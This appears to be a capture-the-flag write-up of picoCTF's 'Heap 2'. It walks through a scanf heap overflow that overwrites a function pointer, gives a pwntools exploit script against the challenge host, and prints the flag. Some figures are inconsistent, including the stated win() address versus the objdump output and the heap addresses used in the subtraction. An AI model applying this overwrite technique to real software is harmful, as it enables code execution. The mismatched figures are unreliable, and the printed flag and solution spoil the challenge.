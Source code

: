 ```yaml
---
layout: post
title:  "Heap 2"
description: Utilizing a buffer overflow payloads to override pointers
date:   2024-10-22
tags: ["Medium", "Buffer Overflow", "Binary Exploitation"]
category: [CTF,picoCTF]
---
```


## Challenge Info
Can you handle function pointers? Downloads the binary [here](https://artifacts.picoctf.net/c_mimas/49/chall). Downloads the source [here](https://artifacts.picoctf.net/c_mimas/49/chall.c).

Additional details will be available after launching your challenge instance.

## Understanding chall.c

The code for your convenience:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

- Defines a constant for the max size of the flag string (`FLAGSIZE_MAX`).
- Two char pointers are declared: `x` is used to store a string, `input_data` stores user input- each being 5 bytes of size.
- A `win()` function is declared. It reads the flag from a file (`flag.txt`) and prints it for us. It uses a buffer to store said flag, and ensures that it doesn't exceed `FLAGSIZE_MAX`
- A `check_win()` is declared. It executes a function at the address stored in the `x` pointer.
- The `init()` function allocates memory for `input_data` and `x`, and initializes them with the strings "pico" and "bico" respectively.
- The `write_buffer()` function asks the use for input, which the function will then store in `input_data` using `scanf` (recall that `scanf` is unsafe, as it does not check for buffer overflows).


## Vulnerabilities
There's several vulnerabilities to note:
- The `write_buffer()` function is using `scanf` to read user input. `scanf` is unsecure and can be overflowed.
- The `input_data` and `x` buffer are allocated to hold only 5 bytes (4 bytes and then a null character)
- The `check_win()` function executes code at the memory address being stored in `x`.


## Connecting to the netcat listener
```terminal
> nc mimas.picoctf.net 55662

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value
+-------------+-----------+
[*]   0x18572b0  ->   pico
+-------------+-----------+
[*]   0x18572d0  ->   bico

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice:
```
Again, `pico` and `bico` are the values inside the buffers (`input_data` & `x` respectively) that were declared at the start. Again, the reason they're declared to be 5 bytes, is to leave 1 byte for the null character.

Just like last time, we're given the addresses. The only thing that's different is that these are buffers instead of variables. Again, we'll subtract the address of `pico` with the address of `bico`.

`0x22b82b0 - 0x22b82d0 = -0x20`. When ran through [cyber chef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')To_Decimal('Space',false)&input=LTB4MjA) (from hex to decimal) we get a value of 32. And because like last time, our initial hex value was negative, this means that `input_data` is 32 bytes behind `x`.


## The Plan

This now know that `input_data` is 32 bytes behind `x`. Additionally, we know that the `check_win()` function executes a function at the address stored in the `x` pointer. Finally we know that if a `win()` function is declared, it'll read us the flag.

*So, in short, we want to:* overflow to reach the `x` pointer, and then get it to hold a value identical to the address of the `win()` function, so that when `check_win()` is automatically ran, instead of executing *'bico'* at `x`, it will execute `win()`- thus giving us our flag.

## Solution

Before we write our payloads, we need to know the address corresponding to `win()`. A simple [objdump](https://man7.org/linux/man-pages/man1/objdump.1.html) will reveal this:

```terminal
> objdump -d ./chall | grep win
00000000004011a0 <win>:
00000000004011f0 <check_win>:
```

This now know that `win()` is at `0x080484b6`. **However**, because of C's memory layout, we need to consider C's memory layout. C uses a little-endian system to ensure that the least significant bytes are placed first. Because of this, we want to input the address of `win()` in little-endian order.

Our payloads should look something like this:

```py
from pwn import *

# Connect to the remote service
p = remote("mimas.picoctf.net", 53827)

# Construct the payloads
payloads = b"AAAA" * 8 + b"\xa0\x11\x40\x00\x00\x00\x00\x00"

# Send option '2' to allocate the object
p.sendline(b"2")

# Wait for the server to ask for the buffer input
p.recvuntil(b"buffer:")

# Send the constructed payloads
p.sendline(payloads)

# Wait for the next prompt (choice menu)
p.recvuntil(b"choice:")

# Send option '4' to check for win condition
p.sendline(b"4")

# Print the final output (possibly the flag)
print(p.recvall())
```

flag: `picoCTF{and_down_the_road_we_go_dde41590}`
